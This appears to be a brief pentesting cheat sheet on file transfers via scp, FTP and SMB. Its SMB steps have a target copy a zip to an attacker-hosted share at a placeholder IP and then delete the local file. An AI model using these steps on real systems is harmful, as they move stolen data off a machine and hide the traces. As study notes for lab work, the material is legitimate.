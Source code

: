 # File Transfers

### SSH
 - `scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2` (`-r` for recersive)
 - copy local file to remote: `scp file.txt remote_username@10.10.0.2:/remote/directory`
 - copy remote file to local: `scp remote_username@10.10.0.2:/remote/file.txt /local/directory`
   
### FTP
 - Upload to server: `put c:\files\file1.txt`
 - Download from server: `get c:\files\file1.txt`
 - Upload multiple files: use `lcd` to traverse kali; then `put *.txt` to put all files to server
 - Downlod multiple files: use `lcd` to traverse kale; then `mget *.txt` to pull all files to server
   
### SMB
 - Follow SMB Client Cheet Sheet
 - Use Impacket-smbserver
1. mkdir smb
2. #Attacker: sudo impacket-smbserver -smb2support share $(pwd)
3. #Target: copy <my_files>.zip \\<Attacker_IP>\share; del <my_files>.zip
4. Clean up smb shares (delete file and close connection)
   
### HTTP
 - 
